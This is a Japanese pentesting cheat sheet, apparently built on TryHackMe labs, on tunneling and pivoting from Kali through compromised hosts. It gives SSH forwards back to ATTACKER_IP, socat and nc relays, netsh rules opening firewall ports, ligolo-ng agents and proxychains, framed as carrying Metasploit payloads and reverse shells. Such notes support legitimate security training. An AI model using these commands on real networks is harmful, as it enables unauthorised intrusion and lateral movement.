 # トンネリング

## 準備

```shell
# kali上にトンネル専用のユーザー作成、パスワード設定
sudo useradd -m -s /usr/sbin/nologin tunnel
sudo passwd tunnel
sudo nano /etc/ssh/sshd_config
```

ポートフォワード専用設定

```text
Match User tunnel
    PermitOpen any
    ForceCommand echo 'This account can only be used for port forwarding'
    AllowTcpForwarding yes
    X11Forwarding no
    PermitTTY no
```

```shell
# SSH リスタート
sudo systemctl restart ssh
```

### 後始末

```shell
sudo userdel tunnel
```

## ターゲットのローカル Web サーバーに接続

kali からターゲットに SSH 接続でき、ターゲット上のローカル稼働している Web サーバーにアクセスするケース。

```shell
ssh -L 80:localhost:80 <user>@<target-ip>
```

## RDP ポート転送

kali からはターゲットの RDP にアクセスできないが、侵害済の PC からはアクセスでき、かつ侵害済 PC から kali への SSH 接続ができるケース。

```shell
# 侵害済のPCで実行。<kali-port>:<target-ip>:<target-port>
ssh tunneluser@<kali-ip> -R 3389:<target-ip>:3389 -N
```

kali 上でローカルに向けて RDP 接続すると、ターゲットに転送される

```shell
xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

同様に、このようにすると HTTP トンネルになる

```shell
ssh -R 8080:172.20.0.120:80 user@IP1
```

```shell
# kali上から target上の6666ポートにアクセス
# -N : コマンド実行なしでポートフォワードのみ行う
ssh -N -R 6666:localhost:6666 tunnel@10.2.22.182
```

## ローカルポート転送

ターゲットから kali に接続できないが、kali 上のサービスに接続させたいケース。

```shell
# 侵害済のPCで実行
ssh tunneluser@<kali-ip> -L *:80:127.0.0.1:80 -N

# FWルール変更（要管理者）
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

ターゲットから次のように kali のサービスに接続できる

```text
http://<侵害済PCのIP>:80
```

## 複合トンネリング

```shell
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

- kali のローカル 8888 に HTTP リクエストすると、thmdc.za.tryhackme.com:80 に転送される
- 侵害済 PC の 6666 ポートでのリッスンは、kali の 6666 ポートに転送される
- 侵害済 PC の 7878 ポートでのリッスンは、kali の 7878 ポートに転送される

metasploit のエクスプロイトを想定。Web サーバーに HTTP リクエスト、Web サーバーからペイロードのリクエスト、Web サーバーからリバースシェルの接続。

## socat

### RDP 転送

```shell
# kali 上ではなく、侵害済 PC 上にポートを開く
socat TCP4-LISTEN:3389,fork TCP4:<target-ip>:3389

# FWルールが必要
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

### HTTP 転送

```shell
socat TCP4-LISTEN:80,fork TCP4:<kali-ip>:80
```

## 動的ポート転送

プロキシチェーンを使って、任意のコマンドでポート転送する。nmap 等は正しく動作しない可能性がある。

```shell
# 侵害済PC
ssh tunneluser@1.1.1.1 -R 9050 -N

# kali側
proxychains curl http://pxeboot.za.tryhackme.com
```

/etc/proxychains4.conf で指定されているポートと一致させる必要がある

```text
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

## nc

FW で 25 ポートは通らないが、443 ポートは通る場合

```shell
sudo nc -lvnp 443 -c "nc <target-ip> 25"
```

## Firefox

標準の HTTP ポート以外はエラーになってしまうので、ポート制限を解除する

```
about:config
network.security.ports.banned.override
# string
1-9999
```

## ligolo-ng

https://github.com/nicocha30/ligolo-ng/releases

agent, proxy の 2 つをダウンロードする。

kali でプロキシ起動

```sh
# ネットワークインターフェイスを作成する場合は sudo が必要
./proxy -selfcert
```

pivot でエージェント起動、プロキシに接続

```sh
./agent -ignore-cert -connect <PROXY_SERVER_ADDR>:11601 &
```

プロキシでトンネル開始

```sh
ifcreate --name ligolo0

tunnel_start --name ligolo0

# ルート追加（CIDR指定）
add_route --name ligolo0 --route 172.16.5.0/24

del_route --name ligolo0 --route 172.16.5.0/24
```

agent で listen、その agent に 別の agent が connect のようにすることで、ダブル、トリプルのトンネリングも可能。

https://olivierkonate.medium.com/pivoting-made-easy-with-ligolo-ng-17a4a8a539df

## proxychains

```sh
# 環境によって少しファイル名が異なる
nano /etc/proxychain.conf

socks5 127.0.0.1 1337
```

```sh
# ダイナミックポート転送
ssh <name>@<ip> -i id_rsa -D 1337
```

```sh
proxychains nmap -sT 127.0.0.1
```
